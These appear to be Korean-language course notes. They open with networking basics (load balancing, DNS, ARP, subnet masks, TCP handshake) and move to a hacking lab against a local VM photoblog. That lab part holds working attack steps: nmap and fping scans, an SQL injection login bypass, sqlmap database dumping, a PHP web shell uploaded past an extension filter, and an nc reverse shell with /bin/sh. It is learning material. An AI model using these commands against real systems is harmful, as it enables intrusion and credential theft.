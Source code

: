 # DAY_5

사용자가 시스템에 요청해서 시스템을 사용하려고 하는데 요청하는 사용자가 많아지면 과부화 생김  
그래서 사용자와 시스템 사이에 L4를 만들어 서비스를 분산하거나 애플리케이션 영역에서 L.B 요청 분산  
L4, LB는 결합 허용이 아님!  
DNS : ~~~ 쿼리 => 마스터가 있고 대체할 수 있는 세컨더리 있음  
이것처럼 LB master와 LB slaver로!  

### 하둡
누군가 요청하면 데이터 노드 쪽에 데이터 저장하거나 분산된 데이터 처리하는 거 필요 -> **네임노드** : 세컨더리 둠, 이중화 되어있다!  
데이터 노드:  

### 시험인감!!? [웹 브라우저에서 구글 사이트 접속 과정]
웹 브라우저에 google.com을 쳤을 때 페이지가 나오는 세부 흐름  
- keyword
   - DNS 스콜  
   - TCP/IP step, Gate way

``` 
1. goolecom의 IP가 뭐지?  
 **(1-1) 메모리 내에 DNS Cache를 먼저 살핀다. :ipconfig/flushdns  
   (1-2) /etc/hosts 본다.**  
    > C:\Windows\System32\drivers\etc의 host 파일에 DNS 적어놓을 수 있음   
    > 그러면 DNS 서버를 참조하는게 아니라 hosts 파일을 참조해서 한다.   

  사용자가 입력한 구글 닷컴의 ip를 알아야 함  
  * DNS 서비스에게 google.com의 IP가 무엇이지?  
    => DNS 서버에게 Query를 해야한다.(168.126.63.1)  
      
  * 실제 통신은(low level 말하는 것) MAC 주소로 통신을 한다.  
    => DNS의 IP주소를 MAC주소로 변환해서 알아야 한다. //DNS : 도메인 -> ip  
      (ARP 프로토콜로 MAC 주소를 알아온다.)    //ARP: ip -> MAC  
```
 
      #### cmd
      > **arp -a**   
      > ip 주소에 대한 MAC 주소(물리적 주소) 나옴  
      그러나 DNS에 대한 ip 주소 없음  
      
      > ipconfig  
      > 서브넷 마스크는 무슨 의미?  
      >  - 뒷자리만 다르면 하나의 네트워크에 있다.
      
      기본적으로 통신은 IP로 진행되는데 실제 통신은 MAC주소로 진행된다.  
      IP를 MAC주소로 바꾸는게 arp다.  
      
      - 게이트를 통해 DNS 서버로 가야함!!!  
      - 서브넷 마스크나 게이트웨이 없으면 어떻게 되는지, MAC주소가 무슨 역할 하는지  

네트워크는 계층적으로 통신함(OSI 7 Layer, TCP/IP 4 Layer)  
![layer](https://user-images.githubusercontent.com/50771111/88609141-5cf2c880-d0be-11ea-8611-cdb2d97571a1.png)

   **subnet mask**     
    (1) 같은 네트워크 영역 => ARP 테이블의 MAC주소로 통신.  
    (2) 다른 네트워크 영역 => 게이트웨이(IP)로 데이터를 보낸다.  
        (게이트웨이의 IP 주소에 대한 MAC 주소로 데이터를 보낸다.)
   
 **====> DNS 쿼리가 이루어졌다.(172.217.161.174)**


```
2. 172.217.161.174 웹서버(구글 웹서버)에 연결을 해야 한다. (TCP)
   * 웹서버는 TCP기반의 HTTP 프로토콜을 이용하고,  
     기본 포트 80 이다. //포트: 프로그램 구분 번호  
     - TCP는 연결 지향 통신(연결 된 것 처럼 쓰겠다.)   
   2-1) TCP 연결을 하기 위해 TCP 3-way handshaking.  

3. (연결이 된 후에) HTTP 요청 (GET...)  

4. HTTP Response(응답) 받고 화면에 데이터를 표시.  

5. 연결을 해제.  
```

#### 준비
> vm에 Web 깔기, kali linux 깔기

#### cmd
> ifconfig // ip 확인  

ping: icmp프로토콜, 네트워크 상태를 모니터링 하고 확인하기 위해 사용하는 프로토콜
> ping www.google.com
> ping www.naver.com
특정 서버가 살아있는지 알기 위해 ping 날렸는데 응답 있으면 살아 있는 것!  
그러나 응답이 없다고해서 죽었다고 할 수는 X, 그냥 서버가 응답 안한거 일 수도 있어서!!
> traceroute www.naver.com
> 하려고 노력은 함!!

> ping 쓰면 살았는지 죽었는지 알 수 있음!

> fping : kali linux가 사용하는 명령어  
> fping -g 10.0.2.0/24  
> 몇 개 alive 한게 있음. 10.0.2.6는 나!  
> 1은 게이트 웨이이고 2,3,3 중에 

#### 포트 스캐닝
> nmap -sT -v 10.0.2.2-4 (alive한 것들 어떤 포트 사용하고 있는지 확인)  

> telnet 10.0.2.4 80(포트번호)  

> kali -> application -> 파이어 폭스 -> 주소창에 10.0.2.4 입력  
>   ==> My Awesome Photoblog 화면 출력!!  

#### 디렉토리 리스팅
> 위에서 사진에서 마우스 우클릭 -> copy Image Location -> 주소창에 입력 -> 뒤에 이미지명 지우기  
>   => Index 파일 리스팅 됨

### [SQL Injection]
```
ID와 PW를 입력하면
id : ' OR '1' = '1--
select count(*) from user_id where id=’' OR '1' = '1’ -- and Pw=’hi’
```
- kali shell  
> sqlmap -u "http://10.0.2.9/cat.php?id=1"  //sql injection에 취약한 URL 파라미터로 던져봄

```
sqlmap -u "http://10.0.2.9/cat.php?id=1"  

sqlmap -u "http://10.0.2.9/cat.php?id=1" --current-db  
    > photoblog 확인  
    
```

포토DB의 테이블 떠보기
> sqlmap -u "http://10.0.2.9/cat.php?id=1" -D photoblog --dump  
>   조금 위로 올려보면 id/pw 나와있는거 볼 수 있음

hash 함수: 고정된 길이. 다른 입력값 -> 다른 출력값, 출력값으로 입력값 예측 불가  
근데 어떻게 풀었지!?!  
   - 중국에서 해쉬값 풀어놓은 테이블 O -> 레인보우 테이블 
   
**id/pw로 로그인 가능한거 확인함!!**

#### shell 코드 올리기
1.  shell 코드 만들기
   > vi hack.php
   > ---------------------
   > <?php
   > system($_GET['cmd']);
   > ?>
   > --------------------
   > ==> php 파일 안올라감 
   
   > 해결법: php 파일 확장자명 대문자로 바꾸기  
   > mv hack.php hack.PHP  
   > 그리고 페이지에서 add 하면 됨!!
   
#### reverse telnet
클라언트가 접속해서 서버에 명령을 보내 실행하는거지  
클라이언트가 접속해서 서버가 명령 보내 실행하는거 X  

만약 방화벽 안에 우리가 장악한 서버가 있으면! 리버스 telnet을 이용해서 제어

kali
```
> nc -lvnp 7000 실행
> lisen 상태

> 홈페이지 주소 창 뒤에 cmd=nc 10.0.2.6(칼리 IP) 7000  -e /bin/sh
>  shell 창에서 connect 된 거 볼 수 있음

